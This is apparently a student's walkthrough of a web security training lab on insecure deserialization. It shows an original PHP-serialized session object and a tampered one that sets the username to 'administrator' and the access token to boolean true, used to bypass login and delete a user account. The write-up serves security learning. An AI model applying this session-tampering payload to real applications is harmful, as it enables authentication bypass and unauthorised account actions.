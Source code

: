 # Modifying serialized data types

## This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the `administrator` account. Then, delete Carlos.

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

login
then /my-account page sent to repeater

![screenshot](./images/lab2_account_page_in_repeater.png)

### step2

```json
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"bdrsqrhm9pmae2nve9sezu0h4ub9g6bn";}
```

```json
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";b:1;}
```

![screenshot](./images/lab2_decode_encode_token.png)

### step3

use encoded session id

![screenshot](./images/lab2_admin_panel_session_id.png)

use this session id to delete carlos account and solved the lab
